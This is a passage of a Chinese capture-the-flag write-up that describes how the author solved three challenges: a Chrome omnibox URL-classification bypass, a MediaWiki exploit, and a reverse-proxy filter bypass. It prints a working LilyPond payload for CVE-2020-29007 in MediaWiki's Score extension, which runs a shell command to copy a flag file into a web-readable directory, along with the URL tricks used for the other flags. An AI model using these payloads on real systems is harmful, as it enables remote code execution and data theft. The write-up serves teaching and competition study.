 既然自己没有这样的 IP，那蹭别人的也可以。如果有一个这样格式的 IP，他的某个 URL 支持任意重定向（Open Redirect），那不也可以吗？于是我就开始寻找这样的网站，首先想到的就是 [1.0.0.1](https://1.0.0.1/)。但是找了一大圈，还研究了 Cloudflare 的 `/cdn-cgi` 下面的各种 API，都没找到任意重定向的接口。后来想想，如果真能找到，那真是一个有趣的非预期解。

然后我又去研究了如何租用 IP 段，发现某个网站上可以租到第三段是 0 的 IP 地址段，价格也不算贵，但是注册了之后发现需要认证公司身份，不接受个人用户，就懒着继续了。如果我之前注册过公司，说不定这题就这样解出来了。

我又想能不能强行占用科大 IP 段里面的这类地址（看起来移动出口有一些），或者扫描所有这类 IP 上面的服务来寻找任意重定向，但是这些都是不太好的行为，就算了。

睡了一觉之后，我在想，有没有可能我看的最新版代码跟题目运行的版本不一样，最近有改动？我就去研究相关文件的历史修改，然后发现最近没啥有意义的修改。在看代码的时候，我突然在想，我只看了所有 `AutocompleteInput::Parse` 这个函数中返回的 `OmniboxInputType::QUERY`，那它间接调用的别的函数呢？我立马跑去看代码，发现还真有，325 行就是这样的。追踪进去看，发现[这里](https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/autocomplete/chrome_autocomplete_scheme_classifier.cc;l=90?q=OmniboxInputType::QUERY&ss=chromium%2Fchromium%2Fsrc&start=11)也可以产生 query 类型的结果。那条件是什么呢？是[这个函数](https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/external_protocol/external_protocol_handler.cc;drc=4d9f1c1280ee8474a61ff89260a81651c50b4fb6;l=322)返回 `BLOCK`，就是说你输入的文本去掉 `http://` 或者 `https://` 前缀后，按照 URL 解析出来的协议部分，需要是所有 `kDeniedSchemes` 之一或者单字母的就行。

去 `chrome://omnibox` 测试，`a:a@a.com` 就是 query 类型的，于是在自己的服务器上提供一个 title 符合要求的网页，然后提交 `http://a:a@ip/?` 就直接通过了。

后来与主办方的 xmcp 聊了一下，原来预期解法是 `1.234567` 这样的 IP 地址会被（按 256 进制）展开，得到 `1.3.148.71` 这样的地址。我在做题的过程中还真看了几篇讲各种畸形 IP 地址的文章，但是大家说的都只是十六进制、八进制、全数字之类的格式，并没有看到 xmcp 说的这种。想了想，很多年前我确实知道这种写法，但是基本都忘了。看来想知道一个东西的严格定义的时候，还是不能为了偷懒在网上随便看看别人的文章，而应该去读官方文档啊。

## 私有笔记

这个题明确说了不要看代码，根据题目里面的链接，一看就是 CVE 题，于是开始找 CVE。

根据题目环境的版本，发现相关的大概是[这里](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)的这些，然后随便试了一下各种参数组合，不知道具体是什么操作序列触发了漏洞，反正访问到 `index.php?title=%E9%A6%96%E9%A1%B5&action=mcrundo&undo=1&undoafter=2` 的时候就出现了 flag。

我在本地用 Docker 跑了一个 MediaWiki，对比发现题目环境的 Score 插件很可疑。搜索了一下发现了[这个](https://github.com/seqred-s-a/cve-2020-29007)。使用提供的用户名密码登录，试了一下 payload 能用，但是怎么读 flag 进来呢？用布尔型注入其实已经稳了，但是写起来麻烦，我就想怎么把 flag 给直接一次读回来。试了试各种 URL，都会被 `index.php` 处理，唯独图片目录不会，所以把 flag 写进图片目录就行了。

最终 payload：

```
<score>\new Staff <<{g^#
(number->string(system "cat /flag2 > /var/www/html/images/a.png"))
}>>
</score>
```

然后 `curl https://prob07-lkukvyic.geekgame.pku.edu.cn/images/a.png` 即可看到 flag。

## 企业级理解

这道题第一问我一开始一直都没搞明白 flag 在哪里……

首先拿到一份 PDF 格式的代码。可以发现 80、8079、8080 跑着三个服务，我们访问的是 80 端口的服务。然后我们发现一些 URL 被过滤掉了。通过简单的尝试可以发现 URL 中添加一个 `/` 就可以访问 `/admin/query/` 和 `/admin/source_bak/`。根据得到的代码，可以看出 80 端口的这个服务是一个类似反向代理的角色，会把 `/admin/` 后面的部分提取出来，进行 URL Decode 操作，然后作为新的 URL 访问 8079 端口的服务。我直接就试了一下如果填写的 URL 包含域名会怎么样，发现可以直接访问 8080 端口的服务，于是第二个 flag 拿到。
